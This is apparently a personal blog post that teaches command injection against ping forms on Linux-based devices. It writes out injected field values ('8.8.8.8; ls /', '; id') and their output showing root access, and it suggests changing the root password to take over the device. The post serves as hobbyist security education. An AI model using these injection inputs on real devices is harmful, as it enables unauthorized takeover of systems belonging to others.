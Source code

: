```yaml
---
created: 2023-07-13T19:29:40+02:00
updated: 2023-11-01T21:25:09+01:00
title: Hacking into things
tags:
  - linux
  - hacking
  - programming
publish: true
---
```


This has been something that I've had an interest for for many years and have dabbled in every now and then when I had the chance.

Every now and then you get a device that you soon figure out is running a flavour of Linux and you start wondering, can I get root access to it? 🤔
You start poking around and after a little while you find a HTML form that is not behaving as it should.

## HTML Forms
### Ping prompts
Ping prompts might be the easiest to see why it could be so easy to break.

In the form you might see something along the lines of an `Address` field and a `Submit` button.  
You enter in the address and press the button, a few seconds later you get back a response along the lines of:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.1 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=26.1 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.8 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 26.142/26.944/27.731/0.569 ms
```

If you're familiar with Linux you quickly realize that this is the output of `iputils-ping`.  
What you should also realize is that this command is being called from the application running the webserver.  
With this information we can make some assumptions.

The command to get the exact output (except for the latency times and packet loss if any) is the following:
```
$ ping -c 4 8.8.8.8
```
From this we can extrapolate that the `Address` field from the form is populating the address used by the ping command.

Lets assume the command is run as: `ping -c 4 ${address}`  
This shows that the address is a variable and is populate based on what was entered in the `Address` field.

Now, what would happen if we instead input `8.8.8.8; ls /` in the `Address` field?  
The variable would then be expanded to `ping -c 4 8.8.8.8; ls /` and give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=26.0 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.3 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=28.9 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.995/27.524/28.853/1.037 ms
bin   dev  home  lib64       media  opt   root  sbin  sys  usr
boot  etc  lib   lost+found  mnt    proc  run   srv   tmp  var
```
Notice the directory listing at the bottom.

Now for the final check, instead of listing the directory, we check which user is being used to run the webserver and as an extension the commands.  
This we can achieve with the `id` command and would look like this: `; id`.  
The command will be expanded to `ping -c 4 8.8.8.8; id` and would give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.0 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.976/27.351/27.862/0.796 ms
uid=0(root) gid=0(root) groups=0(root)
```

This shows us that the root user is running the commands and we're already in.  
The only thing to do is to change the password of the root user.  

What we've done in this example is what's called Remote Code Execution (RCE) or Code Injection.